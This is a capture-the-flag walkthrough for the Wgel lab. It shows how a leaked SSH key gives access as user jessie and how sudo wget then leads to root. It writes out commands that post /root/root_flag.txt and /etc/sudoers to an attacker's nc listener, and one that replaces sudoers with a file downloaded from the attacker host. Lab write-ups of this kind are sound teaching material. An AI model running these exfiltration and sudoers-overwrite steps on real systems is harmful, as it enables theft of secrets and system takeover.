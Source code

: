 # Wgel CTF
# [cd ../](../index.md)
> Can you exfiltrate the root flag?

# Start

## Enumeration

### Nmap
[nmaps](nmaps.txt)  

- We have port `22` and `80` open  
Port 80 source:
```
<!-- Jessie don't forget to udate the webiste -->
```
- We got the username `jessie`
### Dirsearch
- We found `/sitemap`  
![website](website.png)

- Run dirsearch again but now in `/sitemap`  
![ds_sitemap](ds_sitemap.png)
- Go to `/sitemap/.ssh` and download the `id_rsa` [file](files/id_rsa)

## Connecting to ssh
```
chmod 600 id_rsa
ssh -i id_rsa jessie@10.10.109.62
```
![usertxt](usertxt.png)

## Privilege escalation

`sudo -l` tell us everything we need.  
![sudo_-l](sudo_-l.png)

### Exploiting the vuln
Attacker:
```
nc -lvp 1337 > root.txt
```

Victim:
```
sudo wget --post-file=/root/root_flag.txt 10.8.22.204:1337
```

[root.txt](files/root.txt)  
And just hold enter some time then just crtl+c and `cat root.txt`
- We got it  
![rootflag](rootflag.png)

## Getting a root shell
- Get the `/etc/sudoers` file from the victim

```
sudo wget --post-file=/etc/sudoers 10.8.22.204:1337
```
[sudoers](files/sudoers_og)

- Edit it so jessie could just `sudo su`
  Just replace `NOPASSWD: /usr/bin/wget` with `NOPASSWD: ALL` and u r done  
  ![sudoersedit](sudoers.png)  
  [sudoers_edited](files/sudoers)

- Download on victim, while replacing the original file

```
cd /etc
sudo wget 10.8.22.204:8000/files/sudoers --output-document=sudoers
```

Now we have the edited file
```
sudo su
```
We got the root shell!!  
![rootshell](rootshell.png)
